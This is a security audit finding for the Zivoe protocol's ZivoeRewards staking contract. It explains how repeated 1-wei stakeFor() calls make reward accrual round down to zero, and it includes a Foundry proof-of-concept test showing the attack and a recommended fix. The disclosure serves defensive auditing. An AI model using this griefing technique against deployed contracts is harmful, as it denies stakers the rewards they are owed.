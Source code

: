 Expert Inky Bobcat

high

# Staking reward accrual in `ZivoeRewards` contract can be blocked.

## Summary
If frequent calls to `updateReward()` occur, it can block staking reward accrual for specific addresses in the `ZivoeRewards` contract. This vulnerability can be exploited by malicious actors to prevent any account from accruing staking rewards at minimal cost.

## Vulnerability Detail
In the `ZivoeRewards` contract, when rewards are available, staking rewards accumulate over the `rewardDuration` period. Operations like `stake()`, `getRewards()`, and `withdraw()` trigger the `updateReward()` function, which updates global values such as `rewardPerTokenStored` and `lastUpdateTime`, as well as address-specific values like `rewards` and `accountRewardPerTokenPaid`. These values are calculated by the functions shown below.

```solidity
function earned(address account, address _rewardsToken) public view returns (uint256 amount) {
    return _balances[account].mul(
        rewardPerToken(_rewardsToken).sub(accountRewardPerTokenPaid[account][_rewardsToken])
    ).div(1e18).add(rewards[account][_rewardsToken]);
}

function rewardPerToken(address _rewardsToken) public view returns (uint256 amount) {
    if (_totalSupply == 0) { return rewardData[_rewardsToken].rewardPerTokenStored; }
    return rewardData[_rewardsToken].rewardPerTokenStored.add(
        lastTimeRewardApplicable(_rewardsToken).sub(
            rewardData[_rewardsToken].lastUpdateTime
        ).mul(rewardData[_rewardsToken].rewardRate).mul(1e18).div(_totalSupply)
    );
}
```

The issue arises when `(lastTimeRewardApplicable() - lastUpdateTime) * rewardRate * 1e18 < _totalSupply`. In this case, rewards accrual rounds down to zero. If calls to `updateReward()` for the same address are frequent enough, rewards accrual can be effectively prevented.

As described before, this scenario occurs when `(lastTimeRewardApplicable() - lastUpdateTime) * rewardRate * 1e18 < _totalSupply`. Considering the average Ethereum block time of 12 seconds, if `updateReward()` is called every block, then `(lastTimeRewardApplicable() - lastUpdateTime)` equals 12. With `rewardDuration` set to 2592000 (30 days, as set in the testing contracts), the rounding down occurs when the `_totalSupply/reward` ratio exceeds `4629629629629`. This is problematic, particularly with tokens like USDC or USDT, which have only 6 decimals, making this ratio easy to reach.

Malicious actors can exploit this vulnerability by repeatedly staking 1 wei of ZVE to the target address at every block using the `stakeFor()` function. This action updates `lastUpdateTime` and `accountRewardPerTokenPaid`, consistently causing reward accrual to round down. The cost of this attack is minimal (1 wei of token + gas costs) but effectively prevents any staker from accruing rewards, regardless of their stake size, as long as the `_totalSupply/reward` ratio remains above `4629629629629`.

See POC example below:

```diff
diff --git a/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol b/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
index f5353b6..c12984f 100644
--- a/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
+++ b/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
@@ -705,4 +705,49 @@ contract Test_ZivoeRewards is Utility {
 
     }
     
+    function test_POC() public {
+        // START OF SETUP
+        // Setup tokens and rewards
+        hevm.prank(address(sam));
+        IERC20(address(ZVE)).transfer(address(bob), 10);
+        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
+        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));
+        hevm.prank(address(zvl));
+        stZVE.addReward(USDC, 30 days);
+
+        // Add USDC rewards to stZVE
+        uint256 rewardAmount = 1000_000_000; //1000 USDC reward
+        mint("USDC", address(bob), rewardAmount);
+        hevm.startPrank(address(bob));
+        IERC20(address(USDC)).approve(address(stZVE), rewardAmount);
+        stZVE.depositReward(USDC, rewardAmount);
+        IERC20(address(ZVE)).approve(address(stZVE), 10);
+        hevm.stopPrank();
+        // END OF SETUP
+
+        // Assert that the _totalSupply / reward ratio is above 4629629629629
+        uint256 ratio = stZVE.totalSupply() / rewardAmount;
+        assertGt(ratio, 4629629629629);
+
+        //Sam gets his reward
+        hevm.warp(block.timestamp + 3 days);
+        assert(sam.try_getRewards(address(stZVE)));
+
+        hevm.startPrank(address(bob));
+        hevm.warp(block.timestamp + 12);
+        // Attacker call stakeFOr() to update Sam's rewards.
+        stZVE.stakeFor(1, address(sam));
+
+        hevm.warp(block.timestamp + 12);
+        // Attacker repeats this indefinitely
+        stZVE.stakeFor(1, address(sam));
+
+        // Sam tries to get his rewards.
+        uint256 balanceBefore = IERC20(address(USDC)).balanceOf(address(sam));
+        assert(sam.try_getRewards(address(stZVE)));
+        uint256 balanceAfter = IERC20(address(USDC)).balanceOf(address(sam));
+
+        // Check that rewards rounds down to zero
+        assertEq(balanceAfter - balanceBefore, 0);
+    }--
 }
```

## Impact
This attack can block any staker, irrespective of their stake size, from accruing rewards as long as the `_totalSupply/reward` ratio remains above `4629629629629`. This results in potential loss of funds for the targeted addresses.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L123-L134

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L180-L203

## Tool used
Manual Review

## Recommendation
To mitigate this issue, consider either removing the ability for users to stake for other addresses (`ZivoeRewards.stakeFor()`) or implementing a minimal update interval to prevent this type of attack.